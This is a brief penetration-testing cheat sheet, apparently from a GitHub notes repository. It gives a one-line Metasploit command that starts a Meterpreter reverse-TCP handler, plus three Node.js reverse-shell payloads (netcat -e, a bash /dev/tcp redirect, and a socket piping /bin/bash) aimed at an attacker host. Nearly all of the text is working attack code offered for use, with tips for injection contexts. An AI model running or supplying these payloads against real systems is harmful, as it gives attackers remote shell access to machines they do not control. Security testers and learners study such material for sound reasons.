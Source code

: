 # Miscellaneous

---

### Table of Contents
- [Metasploit Handler Oneliner](#metasploit-handler-oneliner)
- [Reverse Shell JavaScript](#reverse-shell-javascript)

---

## Metasploit Handler Oneliner
- Create a `Metasploit` handler in one line

```bash
# E.g. Metapreter Reverse TCP
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <attacker_ip>;set LPORT <port>;run;"
```

## Reverse Shell JavaScript
- Context specific, e.g. without URL encode

```js
# NOT OpenBSD netcat, doesn't know -e
require("child_process").exec('nc <attacker_ip> <port> -e /bin/bash')

# Important: Use backticks here
process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'`)

# Another approach
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(4444, "<attack_ip>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
